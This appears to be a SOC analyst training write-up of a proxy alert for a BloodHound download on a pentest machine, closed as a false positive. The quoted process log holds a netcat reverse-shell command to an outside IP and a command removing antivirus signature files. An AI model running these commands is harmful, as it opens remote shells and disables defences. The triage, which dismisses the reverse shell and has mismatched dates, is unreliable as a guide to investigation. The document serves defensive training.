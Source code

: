 # SOC119 - Proxy - Malicious Executable File Detected

We recieved a Medium alert for a malicious executable file detection. 

**EventID:** 79
**Event Time:** Mar, 15, 2021, 09:30 PM
**Rule:** SOC119 - Proxy - Malicious Executable File Detected
**Level:** Security Analyst
**Source Address:** 172.16.20.5
**Source Hostname:** PentestMachine
**Destination Address:** 140.82.121.4
**Destination Hostname:** github.com
**Username:** kali
**Request URL:** https://github.com/BloodHoundAD/BloodHound/releases
**User Agent:** Penetration Test - Do not Contain
**Device Action:** Allowed

## Analysis
We're going to give into the source address some to see if the destination host was contacted. 

![Screenshot 2023-02-17 at 8 24 32 AM](https://user-images.githubusercontent.com/74877876/219664377-e6dda9c2-31cf-4c78-b25b-9b3f0bb67241.png)

We can see it was on March 15, 2021 at 9:30pm which is the time and date of the alert. Let's look at the connection details.

![Screenshot 2023-02-17 at 8 25 55 AM](https://user-images.githubusercontent.com/74877876/219664676-1ed2ccb0-c2ae-45f4-8a44-58a9b2e63f8d.png)

https://github.com/BloodHoundAD/BloodHound/releases was accessed it looks like. 

We're going to look more at the source machine, any details we can find on that file or March 15, 2021. Looks like the source address, 172.16.20.5, is in fact the source hostname, PentestMachine.

No browser log. 

Command log: 13.06.2021 16:23 nmap -sV -sP 172.16.20.0/24

Network connections:
- 13.06.2021 16:23:01 - 172.16.20.1
- 13.06.2021 16:23:06 - 172.16.20.2
- 13.06.2021 16:23:13 - 172.16.20.3
- 13.06.2021 16:23:15 - 172.16.20.4
- 13.06.2021 16:23:19 - 172.16.20.6

The only processes that appear to be suspicious don't have a date. 
- nc 101.32.223.119 1234 -e /bin/sh - transfers the bash code to detected malicious Hong Kong domain using netcat.
- rm -f /var/lib/clamav-unofficial-sigs/pid/clamav-unofficial-sigs.pid - looks like Linux AV and it's signatures were removed. 
- A SQL database was accessed.

![Screenshot 2023-02-17 at 9 19 59 AM](https://user-images.githubusercontent.com/74877876/219680134-b389f0b0-a18e-4d99-8e36-c26cba644f3a.png)

The other processes, I don't find suspicious. They pulled another operating system and run it on VMware on the device. The processes I find suspicious I'm going to determine as malicious but the other processes aren't. 

The host machine is an Ubuntu machine so we know it's not an executable file that was accessed, but we're going to continue to analyze the file. 

**VirusTotal:** 
- Looking at https://github.com/BloodHoundAD/BloodHound/releases doesn't show any malicious detections. 
- Looking at 140.82.121.4 doesn't show any detections but shows the address is based in Denmark and connected to GitHub.
- While there lots of files 140.82.121.4 communicated with BloodHound's GitHub doesn't appear to be one of them. 

Since I'm familiar with GitHub, I looked up BloodHound's GitHub and was able to find the releases page. The URL does match the requested URL.

Let's look at BloodHound's GitHub is about.

![Screenshot 2023-02-17 at 9 11 28 AM](https://user-images.githubusercontent.com/74877876/219678260-90aba689-2db1-4569-b967-5dcf1ef96a08.png)

It definitely seems like their content is for pentesting. 

## Determination
Determining to be false positive since the file was accessed according to the logs but used for pentesting. The file and the logs are suspicious based on the processes performed but looking into the intent of BloodHound's GitHub, the file was used for pentesting.  

While suspicious and the file malicious, it was used for pentesting.

## Helpful Link
- GitHub: https://github.com/BloodHoundAD/BloodHound
- VirusTotal: https://www.virustotal.com/gui/home/upload 
